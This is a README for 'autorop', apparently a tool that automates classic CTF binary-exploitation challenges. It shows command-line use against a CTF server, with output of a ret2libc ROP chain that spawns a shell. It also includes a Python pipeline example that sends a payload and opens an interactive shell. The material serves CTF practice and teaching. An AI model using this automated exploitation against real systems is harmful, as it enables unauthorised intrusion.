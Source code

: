 autorop
=======

Automated solver of classic CTF pwn challenges, with flexibility in mind.

Disclaimer
----------

Do not use this software for illegal purposes. This software is intended to be used in legal Capture the Flag competitions only.

Command line
------------

.. code-block:: text

    $ python -m autorop.autorop
    Usage: autorop BINARY [HOST IP]

.. code-block:: text

    $ python -m autorop.autorop tests/bamboofox/ret2libc bamboofox.cs.nctu.edu.tw 11002
    [+] Opening connection to bamboofox.cs.nctu.edu.tw on port 11002: Done
    [*] '/data/Projects/autorop/tests/bamboofox/ret2libc'
        Arch:     i386-32-little
        RELRO:    Partial RELRO
        Stack:    No canary found
        NX:       NX enabled
        PIE:      No PIE (0x8048000)
    [*] Pipeline [1/4]: corefile
    ...
    [*] Pipeline [4/4]: system_binsh
    [*] Loaded 151 cached gadgets for '.autorop.libc'
    [*] 0x0000:       0xf7e09e70 system(0xf7f29fcc)
        0x0004:       0xf7df7bfa <adjust @0xc> add esp, 4; ret
        0x0008:       0xf7f29fcc arg0
        0x000c:        0x80484ed main()
    [*] Switching to interactive mode
    Hello!
    The address of "/bin/sh" is 0x804a02c
    The address of function "puts" is 0xf7e2eda0
    $ wc -c /home/ctf/flag
    57 /home/ctf/flag


API
---

Importing autorop automatically does a ``from pwn import *``, so you can use all of `pwntools' goodies <https://docs.pwntools.com/en/latest/>`.

Central to autorop's design is the `pipeline <https://en.wikipedia.org/wiki/Pipeline_(software)>`. Most functions take in a ``PwnState``, mutate it, and pass it on to the next function. This allows great simplicity and flexibility.

See how the below example neatly manages to "downgrade" the problem from something unique, to something generic that the ``classic_printf`` pipeline can handle.

.. code-block:: python

    from autorop import *

    BIN = "./tests/tjctf_2020/stop"


    def send_letter_first(t, data):
        # the binary expects us to choose a letter first, before it takes input unsafely
        t.sendline("A")
        # avoid messing up output by cleaning it of whatever "A" did
        t.clean(constants.CLEAN_TIME)
        # send actual payload
        t.sendline(data)
        # clean output so generic output gets out of the way
        t.recvuntil(b"Sorry, we don't have that category yet\n")


    # in this case a function is overkill,
    # but demonstrates the flexibility of custom pipelines
    def set_overwriter(state):
        state.overwriter = send_letter_first
        return state


    # create a starting state
    s = PwnState(BIN, process(BIN))

    # build a custom pipeline, connecting it to the classic_printf pipeline
    result = pipeline(s, set_overwriter, turnkey.classic_printf)

    # switch to interactive shell which we got via the exploit
    result.target.interactive()
